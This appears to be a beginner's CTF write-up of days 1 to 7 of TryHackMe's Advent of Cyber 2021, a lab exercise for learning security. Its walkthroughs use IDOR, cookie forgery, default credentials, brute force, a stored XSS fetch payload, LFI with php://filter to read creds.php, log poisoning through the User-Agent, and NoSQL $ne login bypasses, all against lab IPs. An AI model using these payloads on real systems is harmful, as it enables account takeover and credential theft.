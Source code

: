 ![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/1d59ad51-5827-47ed-8f29-00b6182d0555)# [Advent of Cyber 2021](https://tryhackme.com/room/adventofcyber3)

> Get started with Cyber Security in 25 Days - Learn the basics by doing a new, beginner friendly security challenge every day leading up to Christmas.

## Day 1: Save The Gifts

after open the site, you will see a panel like that

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/2ba36efb-decf-4e49-981a-c242701a1563)

click on activity tab, you can see McSkidy profile with `?user_id=11`

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/03e3ab66-e0a1-40c5-a813-ee234aeafb18)

by changing the user id to another, i can see other profile

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/3140931d-3e85-4bc5-a6e0-2486c6dd2cb3)

continue find other user, i found the grinch

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/b4bc7cee-7981-424c-9b10-5ffb1aeaab5c)

revert all action the grinch did, we got our flag

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/c16777ab-5d27-443b-8d2b-d163e49cbdb9)

Answer:

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/2fcd1460-c626-4307-931b-ef7e66e45242)

## Day 2: Elf HR Problems

on statis site, try to register an account and check cookie

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/7640834b-2074-4dad-9c55-9dee3d151b33)

use magic decode from cyberchef, we know its value

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/e01f2075-d7a8-4907-bafe-fd7728153364)

edit the value username to admin and encode to hex

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/ae078e71-7055-41cb-b879-4fe26222926f)

edit the cookie and refresh the page

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/169212a7-f870-4ce3-92f1-566ab57dad04)

Answer:

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/9a23811a-40d4-44fe-a097-0fcbc839e976)

## Day 3: Christmas Blackout

enum the directory to find admin dashboard

```
gobuster dir -u http://10.10.108.41/ -w /usr/share/wordlists/dirb/common.txt -t 30
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/5457ff1d-fada-4a6a-9773-6a1cc021e2ce)

go to /admin and try to login with default credentials

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/3a146657-4b6f-48c3-93b2-ba8f93bea994)

success login with default: administrator:administrator

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/bd182971-d5aa-40e1-9f3c-150dabedb02c)

our flag appear on admin panel

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/5de467c8-5ca0-48e9-8311-f898e408faa7)

Answer:

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/7822c421-b7f1-4dd4-8cd9-3fdf09dc92c6)

## Day 4: Santa's Running Behind

open burpsuite and intercept a login request

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/15b30611-62ee-4838-aaa9-f3e2f803cae8)

add payload at password

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/8aa0e577-8379-453a-bb66-6aaf342fc82a)

load our password provided by task

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/58166197-6277-477b-a089-3333a594cf87)

run the attack and you can see a diffirent record which is our answer

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/1e1927bf-442d-4cca-94cb-ab34c426197f)

login and get our flag

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/de8390ce-e185-43e2-9175-64dec4f82aa1)

Answer:

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/64e44728-0e75-4763-99b6-a1d5a1cc2ba3)

## Day 5: Pesky Elf Forum

log into the forum

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/239011b1-ecc6-4eb5-a03b-5a75403e0117)

go to setting and change password, you will see a link that

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/cfaa078a-845e-4bbd-adab-2e1d8bfbaa5c)

if you can somehow trick the Grinch into visiting this URL, it will change their password to pass123

post a comment `<script>fetch('/settings?new_password=pass123');</script>` and wait to grinch got in

now login again with grinch:pass123

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/5d4b4b44-984a-4fc4-8145-eec9e8c83eef)

disable the plugin in setting to get flag

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/72e4746b-af9d-49e6-ab37-40927f22d08c)

Answer:

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/d5889b15-66ed-45d1-9119-0b8808da85b7)

## Day 6: Patch Management Is Hard

after access to the webpage, it redirect to a link

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/098804ac-55d9-4464-9bf2-df9f3ca19d5f)

use LFI vulnerabler to get flag `?err=../../../etc/flag`

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/edf4839e-347d-4133-b850-f2480ffbf5c4)

use PHP filter technique to bypass LFI `?err=php://filter/convert.base64-encode/resource=index.php`

then decode base64, we get the source code

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/4a61545f-2d6d-46fe-a674-04e070b9bf14)

we know that program include a credential from file, got it and decode

```
?err=php://filter/convert.base64-encode/resource=./includes/creds.php
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/6016dd96-fd32-4690-943b-32966ed661cb)

login to mcskidy acc, i see a manage panel

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/5911c5bf-1b1d-4992-a694-4073e40631f7)

check the recovery password

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/cb71b1c7-2c38-48ff-b882-65f3859ddbfe)

check the log access

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/685a1dfd-19ec-40d4-91d9-22704fe1b4c3)

we were able to include the User-Agent value we wanted

```
curl -A "<?php phpinfo();?>" http://10.10.115.155/login.php
```

and using LFI to see the result at `?err=./includes/logs/app_access.log`

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/21673a50-9c2b-48df-a39c-bd050ca0878a)

Answer:

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/e393fff9-ec89-476b-9c63-c552cfec2d08)

## Day 7: Migration Without Security

ssh into the machine

```
ssh thm@10.10.106.247 -p 2222
tryhackme
```

interact with mongo db

```
mongo
show databases
use flagdb
db.getCollectionNames();
db.flagColl.find()
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/d04d33e5-29ef-4023-a658-ca1f26f7734f)

open burpsuite and intercept a login request

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/51778379-5ec7-44bd-9f0f-bc38c634a55d)

bypass login with admin by `username=admin&password[$ne]=admin`

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/70fe430f-1a2d-468c-a1ef-205ac1f3e8a7)

click on flag link to get our flag 2

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/ac4ba6a8-1d20-40bb-a78f-d5bfea333a00)

click on search link, we get a search user page

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/60c36018-e7b4-42cd-87dd-cdc3f21c1127)

list all user with guest role by `username[$ne]=guest&role=guest`

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/bf404402-7389-4998-87f1-4017b78f7e55)

perform NoSQL injection and retrieve the mcskidy record `username=mcskidy&role[$ne]=user`

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/8d3a3139-ca47-4d8b-b2bf-91d233b46525)

Answer:

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/9f054da5-fb70-40bc-bd95-c969b5774452)
